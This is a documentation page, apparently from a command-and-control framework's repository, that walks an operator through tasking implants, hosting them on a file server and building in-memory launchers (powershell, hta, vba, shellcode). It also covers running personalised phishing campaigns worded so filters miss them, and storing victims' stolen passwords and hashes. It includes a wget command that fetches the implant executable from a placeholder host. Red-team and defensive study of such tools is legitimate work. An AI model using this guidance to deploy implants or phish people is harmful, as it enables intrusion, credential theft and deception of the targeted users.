 # Some more advanced Mjollnir's features

[< Index](index.md)

[> Interact with your Chocolate](chocolate-interaction.md)


So far, you know how to start a listener and how to build and interact with a Chocolate. Let's see some advanced features about **Mjollnir c2**.

## Different kind of tasks

Experimenting with your first Chocolate, you accessed it by clicking on the **Dashboard** tab. However there is a better way to do that. Click on the **Tasks** tab like the following:

![](images/advanced-features/tasks.png)

You will see 4 new tabs:
* **Tasks**: allows you to see all your active Chocolates and interact with them the way you did by clicking on the **Dashboard** tab
* **Bulk task**: allows you to select a **group** of Chocolates and order them to execute a specific task
* **Batch task**: allows you to select one Chocolate and order it to execute tasks after tasks automatically
* **On registering task**: allows you to execute several tasks as soon as a Chocolate registers

Those four tabs are very usefull, and I am sure you already know when you could use them.

## Make your Chocolate downloadable

When you create a Chocolate, you may want it to be downloaded by the victim. Hopefully, this is easily feasible!

Once built, your agent will be available on the **Up/download** tab as the following:

![](images/advanced-features/updownload.png)

And thus you can access it easily. But in order to do that, you will have to set a **File server** first.

To start a **File server** you have to go to the **Listeners** tab and select **File server**, and specify the **Bind address** and **Bind port**.

![](images/advanced-features/file_server.png)

Then you should be able to download your Chocolate or some others file like:
```
wget http://IP:PORT/files/chocolate_win_http.exe
```

## Use a Launcher

So, ok it is nice to make your Chocolate downloadable, but sometimes you don't want to drop on the victim's disk your Chocolate. In that case, you would like to use **powershell**, **vba**, a **shellcode** and so on that will download your Chocolate and executes it in memory.

You can do that into Mjollnir. Select the **Launchers** tab like the following:

![](images/advanced-features/launchers.png)

You have to specify the type of the launcher you would like to use:
* powershell
* hta
* vba
* shellcode
* pe

You can use the one you want or implement one that is not listed instead.

The **launcher name** is the name of the launcher that will be available into the **Up/download** tab. So you must start a **File server** first.

By the way, you have to specify the **file server ip** and the **file server port**.

And obviously you have to indicate the name of the Chocolate that will be downloaded. The Chocolate has to be available on the **Up/download** tab.

## Did you say Phishing?

Well, you know how to create your **launcher** that will download your **Chocolate** and executes it in memory. But how to make the victim download and execute your launcher?

There is a **Phishing** tab. Let's see it:

![](images/advanced-features/phishing.png)

You can define the **campaign's name**, the **SMTP server** you want to use, as well as the **SMTP port**. 

You can define the **source email** / **source email password** that will send the phishing emails. The **display name** is the name that will appears into the victim's email box. 

You have to create an **email template** in HTTP format. You could add one attachement if needed.

The important point is the **Emails list**. The email list has a **?** next to it because it needs some explanations.

If you send, let's say, 2000 identical emails to a company, there are good chances that there will be tagged as phishing emails (well they are). But if each email is sligtly different, perhaps user personalized, those email will not be tagged as phishing.

Knowing that, you have to create your template carefully included some {{TAG}} into it. Those {{TAG}} will also be into the **Emails lists**.

As an example of **template**:
```
<html>
    <body>
        Hello {{USERNAME}}, thank you for registering with the email: {{EMAIL}} at the date {{DATE}}

        Please submit that {{CODE}} to the application in order to validate your authentication.
    </body>
</html>
```

And an example of **Emails list**:
```
EMAIL,USERNAME,DATE,CODE
thor@mjollnir.fr,Thor God of Thunder,01/01/1900,12345
freyja@mjollnir.fr,Freyja,02/02/1900,54321
odin@mjollnir.fr,Odin,03/03/1900,09876
```

You phishing campaign is availabe on the **Dashboard** tab:

![](images/advanced-features/phishing_list.png)

You can click the corresponding raw, and update your campaign before submitting it !

![](images/advanced-features/phishing_update.png)

## Save your loots

Now that you know how to propagate your Chocolate, and you get some importants informations such as **password** and **hash** of the victim machine, you may want to save them.

There is a **Loots** tab specially crafted for that:

![](images/advanced-features/loots.png)